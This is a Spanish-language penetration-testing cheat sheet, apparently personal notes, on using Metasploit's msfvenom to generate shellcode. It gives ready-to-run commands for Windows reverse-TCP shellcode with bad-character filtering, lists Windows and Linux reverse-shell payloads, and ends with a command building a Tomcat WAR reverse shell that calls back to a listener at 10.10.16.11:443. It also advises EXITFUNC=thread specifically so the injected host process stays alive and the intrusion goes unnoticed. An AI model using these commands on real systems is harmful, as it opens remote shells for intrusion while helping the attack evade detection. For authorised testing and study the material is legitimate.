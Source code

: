 Es una herramienta del framework Metasploit que se usa para generar **payloads personalizados**, como **reverse shells** y **bind shells**. Permite crear **shellcode** en distintos formatos (Python, C, exe, etc.) para inyectarlo en exploits o archivos ejecutables. Es muy útil en pruebas de penetración para simular ataques reales.


```
msfvenom -p Payload LHOST=IpDeNuestraMaquina LPORT=PuertoQueEstaEnEscucha EXITFUNC=thread -b BadCharts -v shellcode -f FormatoDeSalida -a Arquitectura --platform SistemaOperativo
Ejemplo: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -v shellcode -f py -a x86 --platform windows
```

*Parametros:*
`-p` Ingresamos el payload que queremos inyectar | Ejemplo 
	Los payload mas comunes que vamos a usar son: 
		*Windows:* 
			`32Bits:`windows/shell_reverse_tcp 
			`64Bits:`windows/x64/shell_reverse_tcp
		*Linux:*
			`32Bits:`linux/x86/shell_reverse_tcp
			`64Bits:`linux/x64/shell_reverse_tcp
`LHOST=` Nuestra ip
`LPORT=` Puerto que esta en escucha para recibir la [[Reverse shell]]
`EXITFUNC=` Define como termina el proceso al ejecutar el payload, la forma mas segura y sigilosa es usar *thread*
	Ejemplo de por que usar thread: Si yo inyecto el shellcode desde el proceso de la calculadora, usando EXITFUNC=thread el proceso de la calculadora sigue activo cuando yo cierro mi revershell, pero si no tuvierea el EXITFUNC=thread, cuando cierro mi revershell tambien se cierra la calculadora y esto seria poco sigiloso
`-b` Son los badcharts que tenemos que evitar para que se rompa el shellcode
`-v` Es para darle un nombre a la variable que tiene el shell code
	Ejemplos:
		Si ponemos de nombre buf, el shellcode se va a expotar asi: *buf += b"\xfc\xe8\x89..."*
		Pero si colocamos legacy va a exportarse de la siguiente manera: *legacy += b"\xfc\xe8\x89..."*
`-f` Formato de salida. Por ejemplo puede ser py, exe, bin, etc
`-a`Especificamos si la maquina victima es de *x86*(32bits) o *x64*(64bits)
`--platform` Sistema operativo de la maquina victima. Puede ser *windows* o *linux*

-------
# Comando para ver todos los payloads

```shell
msfvenom -l payloads
```


-------
# [[Reverse shell]]

#### Payload para tomcat archivo.war
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.11 LPORT=443 -f war -o shell.war
```